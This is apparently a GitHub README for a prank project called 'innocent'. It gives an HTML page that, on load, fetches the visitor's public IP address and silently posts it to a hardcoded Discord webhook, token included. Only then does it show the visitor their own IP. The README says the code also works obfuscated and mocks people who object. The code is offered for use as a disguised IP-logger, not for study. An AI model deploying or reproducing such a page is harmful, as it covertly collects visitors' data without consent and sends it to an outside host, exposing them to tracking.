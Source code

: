EXAMPLE URI: [CLICK HERE](https://hideakiatsuyo.github.io/innocent)

Example Result:<br>
![](https://i.imgur.com/A58wwMd.png)
<br>
[open an issue](https://github.com/HideakiAtsuyo/innocent/issues/new) instead of being a kid + the webhook is still not deleted i'm waiting. :)
<br>
It also work when obfuscated:<br>
![](https://i.imgur.com/ZoxHNLh.png)

```html
<!DOCTYPE html>
<html lang="fr">
  <head>
    <meta charset="utf-8">
    <title>Innocent</title>
    <script src="https://code.jquery.com/jquery-3.6.0.js"></script>
    <script type="application/javascript">
      $(function() {
          		$.getJSON("https://api.ipify.org?format=jsonp&callback=?", //Take the IP then use the callback function 
          			function(json) {//Discord Webhook under
          			const discordWebhook = "https://canary.discord.com/api/webhooks/934415150738464938/oPDmxpKkAUF6lbus2jQcOlsjB8VurxdhoG5Yf8VubLdCSZffJbz53xEEtstjOS7vrXD1"; //USE REDIRECTION NOT DIRECT WEBHOOK LMAO
          			let req = new XMLHttpRequest(); //Initialize The Request
          			req.open("POST", discordWebhook);
          			req.setRequestHeader("Content-Type", "application/json");
          			let payloadRes = { //Payload to send in the request
          				username: "Angel Gabriel",
          				avatar_url: "https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg",
          				content: json.ip //Your IP from the callback
          			};
          			req.send(JSON.stringify(payloadRes)); //Send the request with the payload
      
          			setTimeout(() => {
          				document.write(`<center><img src="https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg"><h1>Did I just caught you on my website ${json.ip} ?</h1></center>`);
          			}, 2*1000); //Wait 2 seconds then write this as new page
          		});
          	});
        
    </script>
  </head>
  <body>
    <center>
      <br>WAIT 2 SECONDS
    </center>
  </body>
</html>
```
